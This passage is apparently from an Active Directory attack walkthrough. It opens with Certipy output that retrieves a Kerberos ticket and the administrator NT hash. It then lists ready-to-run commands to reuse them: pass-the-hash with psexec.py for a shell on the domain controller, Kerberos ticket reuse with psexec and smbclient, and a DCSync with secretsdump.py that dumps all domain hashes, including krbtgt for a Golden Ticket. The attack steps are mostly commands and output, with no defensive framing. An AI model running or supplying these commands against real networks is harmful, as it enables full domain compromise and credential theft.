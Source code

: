 ```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@corp.local
[*] Trying to get TGT...
[+] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[+] Got hash for 'administrator@corp.local': aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
```

✅ **Success! You now have:**
1. **TGT (Kerberos ticket):** Saved to `administrator.ccache`
2. **NTLM Hash:** `8846f7eaee8fb117ad06bdd830b7586c`

---

#### Phase 4: Use Obtained Credentials

**Option 1: Pass-the-Hash**

```bash
# Use hash with any Impacket tool
psexec.py -hashes ':8846f7eaee8fb117ad06bdd830b7586c' \
    'administrator@192.168.1.10'

# Output: Shell as CORP\administrator on DC
```

---

**Option 2: Use Kerberos Ticket**

```bash
# Export ticket to environment variable
export KRB5CCNAME=administrator.ccache

# Use with Kerberos-enabled tools
psexec.py -k -no-pass 'administrator@dc01.corp.local'

# Or with smbclient
smbclient //dc01.corp.local/C$ -k
```

---

**Option 3: DCSync Attack**

```bash
# Dump all domain hashes (including krbtgt for Golden Ticket)
secretsdump.py -hashes ':8846f7eaee8fb117ad06bdd830b7586c' \
    'administrator@192.168.1.10' \
    -just-dc

# Output:
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846...:::
# Guest:501:...
# krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1234...:::  ← Golden Ticket!
# ...all domain hashes...
```

---